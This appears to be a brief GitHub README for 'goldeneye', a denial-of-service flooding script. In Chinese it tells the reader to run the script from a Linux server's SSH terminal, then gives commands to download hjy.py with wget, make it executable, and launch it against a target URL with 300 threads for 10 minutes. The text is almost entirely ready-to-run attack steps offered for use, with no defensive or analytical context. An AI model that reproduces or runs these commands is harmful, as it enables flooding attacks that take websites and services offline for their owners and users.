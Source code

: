 # goldeneye
脚本需要在linux服务器SSH终端执行

wget https://raw.githubusercontent.com/wxhscc/goldeneye/main/hjy.py

chmod +x hjy.py

./hjy.py http://url/ -s 600 -w 300

300线程发包10分钟
